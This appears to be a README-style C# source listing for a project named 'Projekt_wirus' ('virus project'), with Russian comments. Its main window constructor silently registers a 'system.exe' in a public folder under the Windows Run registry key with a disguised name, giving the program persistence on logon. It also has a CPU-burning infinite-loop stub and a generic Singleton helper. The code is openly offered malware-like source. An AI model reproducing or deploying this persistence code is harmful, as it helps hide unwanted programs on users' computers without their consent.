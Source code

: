 # Projekt_wirus
public partial class MainWindow : Window
    {
        public static string needPatch = "C:\\Users\\Public\\";


        public MainWindow()
        {
            if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
            {
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }
            else
                if (OSVersionInfo.Name == "Windows XP")
            {
                needPatch = "C:\\Documents and Settings\\All Users\\";
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                                                                         //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }

            InitializeComponent();
        }
        private static void s_b()
        {
            int y = 2;
            while (true)
            {
                y *= y;
            }
        }
        
        public class autorun: Singleton<autorun>
    {
        public static bool SetAutorunValue(bool autorun, string npath)
        {
            const string name = "systems";
            string ExePath = npath;
            RegistryKey reg;

            reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
            try
            {
                if (autorun)
                    reg.SetValue(name, ExePath);
                else
                    reg.DeleteValue(name);
                reg.Flush();
                reg.Close();
            }
            catch
            {
                return false;
            }
            return true;
        }
    }
}
namespace DoFactory.GangOfFour.Singleton.Structural
{
    public class Singleton<T> where T : class
    {
        private static T _instance;

        protected Singleton()
        {
        }

        private static T CreateInstance()
        {
            ConstructorInfo cInfo = typeof(T).GetConstructor(
            BindingFlags.Instance | BindingFlags.NonPublic,
            null,
            new Type[0],
            new ParameterModifier[0]);

            return (T)cInfo.Invoke(null);
        }

        public static T Instance
        {
            get
            {
                if (_instance == null)
                {
                    _instance = CreateInstance();
                }

                return _instance;
            }
        }
    }
}
